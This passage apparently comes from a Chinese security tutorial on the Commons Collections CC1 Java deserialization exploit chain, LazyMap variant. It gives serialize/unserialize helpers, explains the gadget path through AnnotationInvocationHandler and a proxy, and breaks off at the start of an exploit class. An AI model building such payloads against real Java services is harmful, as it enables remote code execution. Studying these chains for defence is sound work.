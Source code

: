 ```bash

    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }


    public static Object unserialize(String Filename) throws IOException,ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }

}
```

### EXP(CC1LazyMap):

在调用`tranforms`方法时候，除了能利用`Transformedmap`来进行调用，还可以通过使用`Lazymap`中的 get 方法来进行调用，然后再从`annotationInvocationHandler`的`invoke`方法中调用`Lazymap`中的`get`方法，再通过`readObject`里面调用代理类代理触发`annotationInvocation`类中的`invoke`方法：

[![](assets/1701612311-ff087328cb43fbc08bca2aae6e789dab.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230712235204-0c0f8ce4-20cc-1.png)

```bash
package exp;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;
import org.apache.commons.collections.map.TransformedMap;
import java.io.FileInputStream;
import java.io.IOException;
import java.io.ObjectInputStream;
import java.io.FileOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Method;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;

public class CC1Test {
    public static void main(String[] args) throws Exception{

```